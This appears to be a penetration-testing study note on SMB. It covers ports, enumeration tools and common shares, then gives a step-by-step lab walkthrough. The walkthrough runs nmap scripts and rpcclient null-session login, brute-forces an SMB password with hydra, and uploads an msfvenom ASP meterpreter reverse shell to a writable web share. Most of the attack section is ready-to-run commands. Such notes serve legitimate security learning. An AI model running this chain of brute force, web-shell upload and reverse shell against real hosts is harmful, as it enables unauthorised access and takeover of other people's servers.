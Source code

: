 # SMB
- The protocol used for sharing between devices in MS and Linux
- Also known as CIFS
- SAMBA is linux version
- TCP port 139 is SMB over NETBIOS (older windows)
- TCP 445 is SMB over IP (newer)

## Enumeration Tools
- Nmap NSE
- enum4linux
- smbclient
- rpcclient

## Common Shares
C$ - C drive of remote host
Admin$ - windows install dir
IPC$ - inter-process communication

## Key points
- can you access as guest
- can you brute force
- can you read / write
- if you can write to a share can you access it later for a shell?

## SMB - Nmap
`nmap 192.168.1.1 -p 445 -sV -sC --script=smb-enum-shares

Note you can use * to select all matching scripts

`nmap 192.168.1.1 -p 445 -sV -sC --script=smb-enum*`

## SMB - RPCClient
We can use this to enumerate the server, users and domain users on the system.

`rpcclient -U "" 192.168.1.1 --option='client min protocol=NT1'`

## SMB - SMBclient
List all shares:
`smbclient -L \\192.168.1.1 --option='client min protocol=NT1'`

Gain access to share
`smbclient \\\\192.168.1.1\\C$ --option='client min protocol=NT1'`
 
 ## Password Cracking
 If we can enumerate a user we may be able to crack a password.

 `hydra -l IEUSER -P ~/Desktop/passwords.lst 192.168.1.1 smb`

 Once the password is cracked specify the user withh smbclient and log in.                                     
 `smbclient \\\\192.168.1.1\\inetpub --option='client min protocol=NT1' -U IEUSER`

 # Enumeration Demo

 1. Use Nmap to scan and enumerate smb
 `nmap 192.168.1.1 --script=smb-enum* -p 445 -vvv`

 2. Use rpcclient to attempt a log in. Use the question ? to view a list of actions
 ```sh
 rpcclient -U "" 192.168.1.1
 rpcclient $> ?
 ```

```sh
rpcclient $> queryuser 500 (admin)
rpcclient $> queryuser 1000 (admin)
```

3. Once you have found a user, we will use hydra to brute force the password.
`hydra -l IEUSER -P passwords.lst 192.168.1.1 smb`

4. Now that we have a username and password we can run nmap again using those credentials.
`nmap --script smb-enum* --script-args smbusername=IEUSER, smbpass=Passw0rd! -p445 192.168.1.1`

5. This will give us signigicantly more information:
- logged in sessions
- other users
- directories

6. We'll notice this user has read / write access to the webserver "inetpub". We'll want to access this directly.
```smb
smbclient \\\\192.168.1.1\\inetpub -U IEUSER
smb: \> cd
```

7. Create .asp reverse shell using MSFVenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f asp > shell.asp
msfconsole -x "use /exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.1.1; set lport 4444; run -j"
```
`-j` - Background process


8. Moving back to our smb session:
```sh
smb:  put shell.asp shell.asp
```

9. On the exploited webserver go to the uploaded shell.asp file
A meterpreter sessions will be opened. 
```sh
msf6 exploit(multi/handler) > session 1
meterpreter > shell
```

